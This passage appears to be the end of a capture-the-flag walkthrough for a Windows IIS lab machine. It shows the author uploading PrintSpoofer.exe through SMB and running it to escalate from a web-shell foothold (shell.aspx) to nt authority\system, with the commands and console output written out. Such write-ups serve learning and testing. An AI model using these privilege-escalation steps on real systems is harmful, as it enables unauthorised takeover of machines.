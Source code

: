 ![Untitled](Untitled%206.png)

—> We use tool to escalate: PrintSpoofer.

![Untitled](Untitled%207.png)

- We got tool from GitHub
- We upload file PrintSpoofer.exe by `put PrintSpoofer.exe`  in SMBClient and now we check file in `c:\inetpub\wwwroot\nt4wrksv`  —> File is available.

```bash
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

07/03/2024  05:26 AM    <DIR>          .
07/03/2024  05:26 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
07/03/2024  05:26 AM            27,136 PrintSpoofer.exe
07/03/2024  05:21 AM             3,418 shell.aspx
               3 File(s)         30,652 bytes
               2 Dir(s)  20,278,337,536 bytes free
```

- Run file PrintSpoofer.exe and we got ‘Admin’

```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

![Untitled](Untitled%208.png)

END!!!
